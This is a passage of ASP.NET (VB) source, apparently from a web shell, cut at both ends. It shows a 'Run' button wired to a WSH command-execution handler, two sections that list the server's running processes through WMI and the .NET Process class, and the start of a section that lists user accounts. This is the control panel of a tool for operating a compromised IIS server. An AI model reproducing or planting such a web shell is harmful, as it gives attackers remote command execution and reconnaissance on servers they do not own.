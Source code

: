   	<asp:Button ID="Buttoncmdwsh" runat="server" Text="Run" OnClick="RunCmdWSH" style="color: #FFFFFF; border: 1px solid #084B8E; background-color: #719BC5"/>  
  	<p>
    <asp:Label ID="resultcmdwsh" runat="server" style="color: #0000FF"/>      
    </p>
</form>
<%
	case "pro1"
%>
<form runat="server">
	<p align=center>[ List processes from server ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center>
		<tr>
			<td>
			<% 
				Try
				output_wmi_function_data("Win32_Process","ProcessId,Name,WorkingSetSize,HandleCount")
				Catch
				rw("This function is disabled by server")
				End Try
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "pro2"
%>
<form runat="server">
	<p align=center>[ List processes from server ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>
	<table align=center width='80%'>
		<tr>
			<td>
			<% 
				Dim htmlbengin As String = "<table width='80%' align=center border=0><tr align=center><td width='20%'><b>ID</b></td><td align=left width='20%'><b>Process</b></td><td align=left width='20%'><b>MemorySize</b></td><td align=center width='10%'><b>Threads</b></td></tr>"
			      Dim prostr As String = ""
			      Dim htmlend As String = "</tr></table>"
			      Try
			            Dim mypro As Process() = Process.GetProcesses()
			            For Each p As Process In mypro
			                  prostr += "<tr><td align=center>" + p.Id.ToString() + "</td>"
			                  prostr += "<td align=left>" + p.ProcessName.ToString() + "</td>"
			                  prostr += "<td align=left>" + p.WorkingSet.ToString() + "</td>"
			                  prostr += "<td align=center>" + p.Threads.Count.ToString() + "</td>"
			            Next
			      Catch ex As Exception
			            Response.write(ex.Message)
			      End Try
			      Response.write(htmlbengin + prostr + htmlend)
			%>
			</td>
		</tr>
	</table>
</form>
<%
	case "user"
%>
<form runat="server">
	<p align=center>[ List User Accounts ]&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<i><a href="javascript:history.back(1);">Back</a></i></p>